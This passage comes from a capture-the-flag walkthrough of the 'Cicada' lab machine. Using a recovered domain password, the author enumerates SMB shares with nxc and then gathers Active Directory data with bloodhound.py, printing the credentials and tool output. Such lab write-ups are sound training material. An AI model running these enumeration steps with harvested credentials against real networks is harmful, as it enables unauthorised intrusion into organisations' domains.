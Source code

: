 > `cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8` - We have the **first** valid account.

> I use it and list the available shares again. Probably the rights to `DEV` appeared:

```bash

nxc smb cicada.htb -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares

```
> Result:

```bash

SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV
SMB         10.10.11.35     445    CICADA-DC        HR              READ
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share

```

> The rights to the `DEV` share did not appear. There is nothing interesting in the standard `NETLOGON` and `SYSVOL` shares. No non-standard files or scripts. Nothing to do there.

> You need to understand what to do next if there is currently no vector for `SMB`.

> Having an account in the system, it makes sense to collect all available information through `SharpHound` and display it in `BloodHound` as a graph of dependencies of all objects:

```bash

sudo python3 bloodhound.py -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' -d cicada.htb --nameserver 10.10.11.35 -c ALL --zip -op cicada.htb

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: cicada.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: cicada-dc.cicada.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: cicada-dc.cicada.htb
INFO: Found 9 users
INFO: Found 54 groups
INFO: Found 3 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: CICADA-DC.cicada.htb
INFO: Done in 00M 09S
INFO: Compressing output into 20250729211242_bloodhound.zip

```
> Upload archive in the `BloodHound`:
